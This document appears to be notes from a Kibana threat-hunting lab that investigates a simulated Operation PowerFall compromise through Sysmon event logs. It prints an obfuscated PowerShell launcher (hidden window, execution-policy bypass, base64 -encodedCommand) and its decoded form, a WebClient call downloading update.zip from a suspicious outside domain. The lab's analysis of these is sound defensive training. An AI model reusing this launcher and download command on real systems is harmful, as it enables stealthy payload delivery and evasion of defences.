

https://github.com/findthebad/powerfall-convo
sudo apt-get install docker
sudo apt-get install docker-compose
git clone https://github.com/findthebad/powerfall-convo
cd powerfall-convo
docker-compose up
This lab continues with the use of Kibana for identifying and investigating signs of a compromise (see Model 3). The VT Hunting dashboard has been updated with some new visualizations that should provide you the information you need to get started.
crazyeights@es-base:~/Documents/powerfall-convo$ sudo docker-compose up
http://localhost:5601
Bonus: What advanced persistent threat (APT) has been discussed as being the potential group behind this domain?
www.static-cdn1.comwinlog.event_data.Detections.Hashes.VirusTotal.malicious = 1
or
winlog.event_data.Detections.Hashes.VirusTotal.suspicious = 1
Dns query:
RuleName: -
UtcTime: 2020-09-05 17:35:07.261
ProcessGuid: {020ea625-cc4a-5f53-4a01-000000000500}
ProcessId: 8088
QueryName: www.static-cdn1.com
QueryStatus: 9003
QueryResults: -
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Process Create:
RuleName: -
UtcTime: 2020-09-05 17:35:06.271
ProcessGuid: {020ea625-cc4a-5f53-4a01-000000000500}
ProcessId: 8088
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
FileVersion: 10.0.18362.1 (WinBuild.160101.0800)
Description: Windows PowerShell
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: PowerShell.EXE
CommandLine: powershell.exe -WindowStyle hidden -NoExit -ep bypass -nop -encodedCommand //4oAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAIgBoAHQAdABwAHMAOgAvAC8AdwB3AHcALgBzAHQAYQB0AGkAYwAtAGMAZABuADEALgBjAG8AbQAvAHUAcABkAGEAdABlAC4AegBpAHAAIgAsACAAIgBDADoAXABVAHMAZQByAHMAXABsAGEAYgAtAGEAZABtAGkAbgBcAEQAZQBzAGsAdABvAHAAXAB1AHAAZABhAHQAZQAuAHoAaQBwACIAKQA=
CurrentDirectory: C:\Users\lab-admin\
User: 22ec4e4c-wsw10\lab-admin
LogonGuid: {020ea625-cc22-5f53-ca23-0d0000000000}
LogonId: 0xD23CA
TerminalSessionId: 2
IntegrityLevel: High
Hashes: MD5=CDA48FC75952AD12D99E526D0B6BF70A,SHA256=908B64B1971A979C7E3E8CE4621945CBA84854CB98D76367B791A6E22B5F6D53,IMPHASH=A7CEFACDDA74B13CD330390769752481
ParentProcessGuid: {020ea625-cc46-5f53-4601-000000000500}
ParentProcessId: 4916
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\windows\system32\cmd.exe"
powershell.exe -WindowStyle hidden -NoExit -ep bypass -nop -encodedCommand //4oAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAIgBoAHQAdABwAHMAOgAvAC8AdwB3AHcALgBzAHQAYQB0AGkAYwAtAGMAZABuADEALgBjAG8AbQAvAHUAcABkAGEAdABlAC4AegBpAHAAIgAsACAAIgBDADoAXABVAHMAZQByAHMAXABsAGEAYgAtAGEAZABtAGkAbgBcAEQAZQBzAGsAdABvAHAAXAB1AHAAZABhAHQAZQAuAHoAaQBwACIAKQA=
Goal: Obfuscation and evasion
Called from cmd.exe
-ep bypass - bypass execution policy
WindowStyle hidden - Used to prevent PowerShell from displaying a window when it executes code.
nop - Prevents PowerShell from loading profile scripts, which get executed on launch, so as to avoid potentially unwanted commands or settings.
EncodedCommand - Accepts a base64-encoded string version of a command. Use this parameter to submit commands to Windows PowerShell that require complex quotation marks or curly braces.
ÿþ(.N.e.w.-.O.b.j.e.c.t. .S.y.s.t.e.m...N.e.t...W.e.b.C.l.i.e.n.t.)...D.o.w.n.l.o.a.d.F.i.l.e.(.".h.t.t.p.s.:././.w.w.w...s.t.a.t.i.c.-.c.d.n.1...c.o.m./.u.p.d.a.t.e...z.i.p.".,. .".C.:.\.U.s.e.r.s.\.l.a.b.-.a.d.m.i.n.\.D.e.s.k.t.o.p.\.u.p.d.a.t.e...z.i.p.".).
(New-Object System.Net.WebClient).DownloadFile("https://www.static-cdn1.com/update.zip", "C:\Users\lab-admin\Desktop\update.zip")
CyberChef Recipe:
User: 22ec4e4c-wsw10\lab-admin
Time period: Sep 5, 2020 @ 13:35:06.294 - Sep 5, 2020 @ 13:35:09.066
Real-life: Operation PowerFall – Threat Actor Leverages Internet Explorer and Windows 10 Zero-Days
the attackers used a previously unknown full chain that consisted of two zero-day exploits: a remote code execution for Internet Explorer and a privilege escalation exploit for Windows. Researchers were then able to analyze the zero-days further and discovered that the new full chain targeted the latest builds of Windows 10 (build 18262 x64) and Internet Explorer 11. The two exploits are known as CVE-2020-0986 and CVE-2020-1380, respectively.
APT DarkHotel
Finding the Internet Explorer part of the attack:
timestamp: Sep 5, 2020 @ 13:35:29.382
Registry value set:
RuleName: -
EventType: SetValue
UtcTime: 2020-09-05 17:35:29.379
ProcessGuid: {020ea625-cc2c-5f53-1d01-000000000500}
ProcessId: 5696
Image: C:\windows\Explorer.EXE
TargetObject: HKU\S-1-5-21-4239719670-1178245662-2409435206-500\SOFTWARE\Microsoft\Windows\CurrentVersion\Shell Extensions\Cached\{A9249952-F4C6-4BCD-9B44-6A5BA9B5209E} {7F9185B0-CB92-43C5-80A9-92277A4F7B54} 0xFFFF
Details: Binary Data